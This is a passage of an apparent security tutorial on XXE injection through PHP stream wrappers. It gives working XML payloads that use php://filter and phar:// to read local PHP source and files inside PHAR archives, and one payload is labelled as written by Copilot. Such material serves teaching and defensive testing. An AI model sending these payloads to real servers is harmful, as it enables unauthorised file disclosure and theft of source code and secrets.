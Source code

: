 - Data
    
- Gopher
    
- FTP
    
- Dict
    

Let's explore some of them in detail.

#### PHP filter wrapper

The PHP filter wrapper is part of the PHP filter extension aimed at helping developers filter, sanitize, **and validate data. We can use this wrapper to read local files (such as PHP source code):**

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "php://filter/convert.base64-encode/resource=/path/to/file.php">
]>
<data>
    <post>
        <post_title>&xxe;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

**This PHP filter would encode the contents of our PHP file in base64** and return it to us.

#### PHP Archive Wrapper (PHAR)

The PHAR stream wrapper, part of the PHP Archive Wrapper extension, is used to allow developers to access files within a PHAR file (a PHP application or library compiled into one single file). We can use this wrapper to disclose the contents of PHP files inside an internal PHAR file:

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "phar:///path/to/file.phar/internal/file.php">
]>
<data>
    <post>
        <post_title>&xxe;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>
```

example **by copilot**

```js
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE data [
  <!ENTITY xxe SYSTEM "phar:///var/www/html/myapp.phar/src/Config.php">
]>
<data>
    <post>
        <post_title>&xxe;</post_title>
        <post_desc>...</post_desc>
    </post>
</data>

```

